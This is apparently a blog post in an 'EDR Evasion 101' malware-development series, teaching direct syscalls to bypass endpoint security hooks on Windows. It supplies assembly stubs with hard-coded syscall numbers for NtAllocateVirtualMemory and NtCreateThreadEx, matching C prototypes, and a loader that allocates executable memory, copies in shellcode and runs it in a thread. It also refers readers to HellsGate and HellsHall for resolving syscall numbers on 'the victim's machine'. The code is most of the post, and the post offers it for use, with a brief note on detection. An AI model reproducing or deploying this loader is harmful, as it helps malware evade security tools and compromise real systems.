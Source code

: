 ```yaml
---
title: "EDR Evasion 101 - Pt 3: Direct Syscall"
description: Demonstration of the use of direct syscalls to evade hooking carried out by EDR, in addition to its advantages and possible forms of improvement. 
author: Oblivion
date: 2024-04-21 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: false
math: true
mermaid: true
---
```


This is a very easy way to evade hooking, because we simply perform the direct syscall of our code without needing to use the hooked API. A brief representation of how this technique works:

![img](../commons/direct_syscall/img1.png)

## How make this

Well, first we should know about the stub syscall, it looks like the following:

```
    mov r10, rcx
    mov eax, <SSN>
    syscall
    ret
```

The Service Syscall Number, known as SSN, is the identification number assigned to each syscall function. Now that we understand about the syscall stub and SSN, we can move on. To perform direct syscalls, it is necessary to have the stub in an .asm assembly code. In our C code, we use EXTERN_C to declare the function, informing the compiler that this function exists somewhere in the code. We then compile our C and .asm assembly codes to object files and finally link them. I will demonstrate the process, but first, let's learn how to find out the SSN of functions on our machine. The SSN varies depending on the machine version, which can be an obstacle to performing direct syscalls. I'll show you how to find the SSN of a role:

Opening x64dbg, go to C:\Windows\System32\ntdll.dll and attach it, then go to the "Symbols" tab and search for the function to be used.

![img](../commons/direct_syscall/img2.png)

which will take us to the syscall stub screen where we can see the NtAllocateVirtualMemory SSN equivalent to 18.

![img](../commons/direct_syscall/img3.png)

I will carry out the same process to find out the SSN of NtCreateThreadEx, I will create an .asm file to create the stub of the two functions, result below.

```
.code
    SysFuncAlloc PROC
        mov r10, rcx
        mov eax, 18h
        syscall
        ret
    SysFuncAlloc ENDP

    SysFuncThread PROC
        mov r10, rcx
        mov eax, 0C7h
        syscall
        ret
    SysFuncThread ENDP
end
```

Now I will create a C file as .h containing the function definition, note that the name has to be the same as defined in the .asm file.

```c
EXTERN_C NTSTATUS SysFuncAlloc(
  IN HANDLE           ProcessHandle,    
  IN OUT PVOID        *BaseAddress,    
  IN ULONG_PTR        ZeroBits,         
  IN OUT PSIZE_T      RegionSize,      
  IN ULONG            AllocationType,   
  IN ULONG            Protect           
);

EXTERN_C NTSTATUS SysFuncThread(
    OUT PHANDLE                 ThreadHandle,         
    IN 	ACCESS_MASK             DesiredAccess,        
    IN 	POBJECT_ATTRIBUTES      ObjectAttributes,     
    IN 	HANDLE                  ProcessHandle,        
    IN 	PVOID                   StartRoutine,        
    IN 	PVOID                   Argument,            
    IN 	ULONG                   CreateFlags,         
    IN 	SIZE_T                  ZeroBits,            
    IN 	SIZE_T                  StackSize,           
    IN 	SIZE_T                  MaximumStackSize,    
    IN 	PPS_ATTRIBUTE_LIST      AttributeList       
);
```

Now creating the main file where we will perform a simple injection using direct syscalls.

```c
LPVOID lpAllocationStart = NULL;
SIZE_T szshell = sizeof( shellcode );
HANDLE hProcess = GetCurrentProcess();
HANDLE hThread;

NTSTATUS status = SysFuncAlloc(hProcess, &lpAllocationStart, 0, &szshell, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(status)){
	printf("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[*] Allocated memory at 0x%p\n", lpAllocationStart);

memcpy(lpAllocationStart, shellcode, szshell);

NTSTATUS status2 = SysFuncThread(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, lpAllocationStart, NULL, NULL, NULL, NULL, NULL, NULL);
if (!NT_SUCCESS(status2)){
	printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[+] Thread Created\n");

WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);

return 0;
```

# References

You might ask, "How would I find out the SSN of the victim's machine?" For that, I recommend reading about the concept of [HellsGate](https://redops.at/en/blog/exploring-hells-gate). It dynamically resolves the SSN and allows you to make direct calls efficiently.

# Disadvantages of Direct Syscall

Direct syscalls are easily detected because, in the Windows operating system, it is uncommon for code outside of ntdll.dll to perform syscalls. Therefore, simply search for the opcode of the "syscall" instruction, among other available detection methods such kernel routines and etc.

To avoid this, you can use Indirect Syscall, which is to execute the syscall directly from ntdll, for more information, you can use [HellsHall](https://github.com/Maldev-Academy/HellHall).

## [Code Repository](https://github.com/Entropy-z/EDR_Evasion_101/tree/master/direct_syscall)


